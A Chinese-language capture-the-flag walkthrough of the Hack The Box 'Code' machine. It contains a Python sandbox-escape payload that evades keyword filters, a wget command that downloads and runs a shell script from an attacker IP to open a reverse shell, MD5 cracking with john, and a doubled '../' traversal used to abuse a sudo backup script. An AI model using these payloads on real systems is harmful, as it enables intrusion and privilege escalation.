









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Code  
❯ nmap code.htb -sV -A                 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

## Own www-data

- [SSTI 注入 - Hello CTF](https://hello-ctf.com/hc-web/ssti/#_7)

进入到**5000**端口是一个**python**代码执行窗口

过滤了**import**和一些关键词，尝试寻找**eval**函数

```
for i in range(500):
    try:
        x = ''.__class__.__bases__[0].__subclasses__()[i].__init__.__globals__['__buil'+'tins__']
        if 'ev'+'al' in x:
            print(i)
    except Exception as e:
        continue
```



用加号来进行绕过，即可执行命令

```
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("ls /").re'+'ad()'))
```



```
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("wget 10.10.xx.xx/shell.sh -O /tmp/shell.sh").re'+'ad()'))

print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__buil'+'tins__']['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("bash /tmp/shell.sh").re'+'ad()'))
```

得到反弹**Shell**



拿到**User**



当然，你也可以选择一个更加优雅的方式

```
obj = globals()["__buil" + "tins__"]['ev'+'al']
result = obj('__imp'+'ort__("o'+'s").pop'+'en("ls").rea'+'d()')
print(result) 
```



## Own Martin

在**app/instance**目录下发现一个**database.db**，得到**martin**的密码**hash**



```
[root@kali] /home/kali/Code  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXXXXXXXXXXX (?)     
```



## Root

查看`sudo -l`

```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

查看脚本内容

```
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

脚本的内容如下：

1. **检查参数**：如果没有传入文件参数，输出用法说明并退出。

3. **文件存在性检查**：检查 `task.json` 文件是否存在，若不存在则报错退出。

5. **处理 JSON 文件**：使用 `jq` 移除 `directories_to_archive` 中的 `../`，并更新文件内容。

7. **验证目录**：遍历 `directories_to_archive` 中的目录，确保它们在允许的路径 `/var/` 或 `/home/` 下。

9. **执行备份**：如果所有目录验证通过，执行 `backy.sh` 备份操作。

这里可以使用双写绕过**../**，创建一个**task.json**

```
{
  "directories_to_archive": [
    "/home/..././root/" 
  ],
  "destination": "/tmp"
}
```

然后执行

```
sudo /usr/bin/backy.sh task.json
```



当然，也可以拿到**SSH**密钥



## Summary

`User`：类似于**SSTI**或者**Pyjail**，进行命令执行，直接就拿到了**user.txt**。

`Root`：在**database.db**中拿到**martin**的密码进行解密，通过双写绕过目录限制，备份**root**文件夹，可以拿到**root**密钥。
